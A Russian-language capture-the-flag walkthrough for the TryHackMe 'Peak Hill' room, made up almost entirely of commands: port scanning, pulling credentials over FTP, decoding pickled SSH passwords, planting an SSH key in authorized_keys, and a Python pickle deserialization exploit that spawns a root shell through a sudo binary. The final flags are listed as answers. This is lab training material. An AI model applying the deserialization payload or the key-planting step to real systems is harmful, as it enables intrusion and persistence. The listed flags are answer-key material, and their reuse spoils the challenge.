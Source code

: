 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Peak Hill](https://tryhackme.com/r/room/peakhill) 

Всего 1 заданиe:
## Задание 1
Разверните и скомпрометируйте машину!
Убедитесь, что вы подключены к  сети TryHackMe .

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sSCV -p- <IP>
ftp <IP>
ls -la
get .creds
get test.txt
lquit
cat test.txt 
cat .creds

cyber chef -> from binary
python3 decode_pickel.py
# SSH user: gherkin
# SSH pass: p1ckl3s_@11_@r0und_th3_w0rld

ssh gherkin@<IP>
ls -la
cat cmd_service.pyc

python3
print(long_to_bytes(1684630636))
print(long_to_bytes(2457564920124666544827225107428488864802762356))

nc <IP> 7321
# Username: dill
# Password: n3v3r_@_d1ll_m0m3nt
cat /home/dill/user.txt
```
```commandline
f1e13335c47306e193212c98fc07b6a0
```
+ 50
Что такое корневой флаг?
```commandline
ssh-keygen -t rsa
cat id_rsa.pub
echo "ssh-rsa ...[REDACTED]...= unknown@localhost.localdomain" >> /home/dill/.ssh/authorized_keys
ssh dill@<IP>
sudo -l
cd /opt/peak_hill_farm
sudo ./peak_hill_farm 
pickles

python3
import sys
import pickle
import base64
import os

cmd = sys.argv[1]

class Exec(object):
    def __reduce__(self):
        return (eval("os.system"), (cmd,))

print(f"os.system(\"{cmd}\")")
print()
print(base64.b64encode(pickle.dumps(Exec())).decode())


sudo ./peak_hill_farm 
gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4=

cat /root/root.txt
```
```commandline
e88f0a01135c05cf0912cf4bc335ee28
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
